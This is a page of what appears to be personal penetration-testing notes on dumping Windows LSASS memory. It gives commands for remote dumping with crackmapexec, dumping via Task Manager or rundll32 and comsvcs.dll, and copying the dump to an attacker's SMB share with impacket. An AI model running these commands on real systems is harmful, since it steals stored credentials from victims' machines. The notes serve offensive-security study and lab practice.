

repository: amandaguglieri/hackinglife · page: attacking-lsass/index.html · generator: mkdocs

---
title: Attacking LSASS
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - windows
---
# Attacking LSASS 

 LSASS stores credentials that have active logon sessions on Windows systems.  When we dumped LSASS process memory into the file, we essentially took a "snapshot" of what was in memory at that point in time.
 
## Dumping LSASS remotely

```bash
crackmapexec smb $ip --local-auth -u <username> -p <password> --lsa
```

## Dumping LSASS Locally

### Task Manager Method

The Task Manager method is dependent on us having a GUI-based interactive session with a target.

`Open Task Manager` > `Select the Processes tab` > `Find & right click the Local Security Authority Process` > `Select Create dump file`

A file called `lsass.DMP` is created and saved in:

Attacking LSASS

```cmd-session
C:\Users\loggedonusersdirectory\AppData\Local\Temp
```

This is the file we will transfer to our attack host.  For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
move C:\Users\loggedonusersdirectory\AppData\Local\Temp\lsass.DMP  \\$ipAttacker\CompData
```

### Rundll32.exe & Comsvcs.dll Method

We can use an alternative method to dump LSASS process memory through a command-line utility called [rundll32.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/rundll32).

Modern anti-virus tools recognize this method as malicious activity.

```powershell
# Finding LSASS PID in cmd
tasklist /svc

# Finding LSASS PID in PowerShell
Get-Process lsass

# Creating lsass.dmp using an elevated PowerShell session
rundll32 C:\windows\system32\comsvcs.dll, MiniDump <PID> C:\lsass.dmp full
# With this command, we are running rundll32.exe to call an exported function of comsvcs.dll which also calls the MiniDumpWriteDump (MiniDump) function to dump the LSASS process memory to a specified directory (C:\lsass.dmp).
```

Transfer file to attacking machine.

For instance, with [smbserver.py from impacket](smbserver.md).

```bash
# From the attacker machine (our kali) all we must do to create the share is run smbserver.py -smb2support using python, give the share a name (CompData) and specify the direct
#########################################
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/ltnbob/Documents/

# From the victim's machine (windows)
#########################################
# If you are from powershell
cmd.exe /c move C:\lsass.dmp
# If you have a cmd terminal
move C:\lsass.dmp  \\$ipAttacker\CompData
```
